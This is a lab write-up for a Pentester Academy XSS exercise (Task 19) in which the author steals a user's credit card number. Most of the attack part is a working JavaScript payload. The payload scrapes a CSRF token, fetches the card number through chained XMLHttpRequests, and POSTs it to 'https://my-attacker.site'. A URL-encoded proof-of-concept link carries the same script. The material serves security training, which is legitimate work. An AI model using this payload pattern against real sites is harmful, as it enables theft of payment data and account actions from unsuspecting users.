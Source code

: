 ## Task 19 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/19)</small>

Objectives

1. Find John's Credit Card Number using an XSS vulnerability on this page
2. Display the Credit Card Number in the div with id "result"
3. Post the Credit Card Number to a simulated Attacker Server
4. No Hardcoded values can be used - everything has to be figured out dynamically

So in this we have to find the credit card value, print it to `<div id="result">...</div>` and **POST** it to the attacker's server

Well let me tell in you in advance, the payload for this task would be very lengthy 😛

So here we have a link, when you will click, it will redirect you to new page where after entering the UID you can see the credit card number

The credit card is in `<div id="result">....</div>`

![](https://i.ibb.co/tCW39HX/image.png)

So let's use our old XHR friend and complete this task. BTW the regex used are **`/<input type="hidden" value="(.+?)" .+>/`** and **`/<div id="result">(.+?)<\/div>/`**

```js
let a = document.querySelector("a");
let uid = a.innerText.trim().slice(-4);

const xhttp1 = new XMLHttpRequest();

xhttp1.onreadystatechange = function () {
  if (xhttp1.readyState == 4 && xhttp1.status == 200) {
    const xhttp2 = new XMLHttpRequest();
    let tok = /<input type="hidden" value="(.+?)" .+>/.exec(this.responseText)[1];

    xhttp2.onreadystatechange = function () {
      if (xhttp2.readyState == 4 && xhttp2.status == 200) {
        let cc = /<div id="result">(.+?)<\/div>/.exec(xhttp2.responseText)[1];
        document.querySelector("#result").innerText = cc;

        const xhttp3 = new XMLHttpRequest();
        xhttp3.open("POST", "https://my-attacker.site", true);
        xhttp3.send("cc=" + cc);
      }
    };

    xhttp2.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/19/getcreditcard?uid=" + uid + "&csrf_token=" + tok, true);
    xhttp2.send();
  }
};
xhttp1.open("GET", a.href, true);
xhttp1.send();
```

Since we don't have worry about the delivery of the Credit Card on attacker site, to I am not using any `.onreadystagechange` callback

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/19?url=%3Cscript%3Elet%20a%20%3D%20document.querySelector%28%22a%22%29%3B%0Alet%20uid%20%3D%20a.innerText.trim%28%29.slice%28-4%29%3B%0A%0Aconst%20xhttp1%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp1.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28xhttp1.readyState%20%3D%3D%204%20%26%26%20xhttp1.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20const%20xhttp2%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20let%20tok%20%3D%20%2F%3Cinput%20type%3D%22hidden%22%20value%3D%22%28.%2B%3F%29%22%20.%2B%3E%2F.exec%28this.responseText%29%5B1%5D%3B%0A%0A%20%20%20%20xhttp2.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20%20%20%20%20if%20%28xhttp2.readyState%20%3D%3D%204%20%26%26%20xhttp2.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20%20%20%20%20let%20cc%20%3D%20%2F%3Cdiv%20id%3D%22result%22%3E%28.%2B%3F%29%3C%5C%2Fdiv%3E%2F.exec%28xhttp2.responseText%29%5B1%5D%3B%0A%20%20%20%20%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20cc%3B%0A%0A%20%20%20%20%20%20%20%20const%20xhttp3%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhttp3.open%28%22POST%22%2C%20%22https%3A%2F%2Fmy-attacker.site%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhttp3.send%28%22cc%3D%22%20%2B%20cc%29%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%3B%0A%0A%20%20%20%20xhttp2.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F19%2Fgetcreditcard%3Fuid%3D%22%20%2B%20uid%20%2B%20%22%26csrf_token%3D%22%20%2B%20tok%2C%20true%29%3B%0A%20%20%20%20xhttp2.send%28%29%3B%0A%20%20%7D%0A%7D%3B%0Axhttp1.open%28%22GET%22%2C%20a.href%2C%20true%29%3B%0Axhttp1.send%28%29%3B%3C%2Fscript%3E)
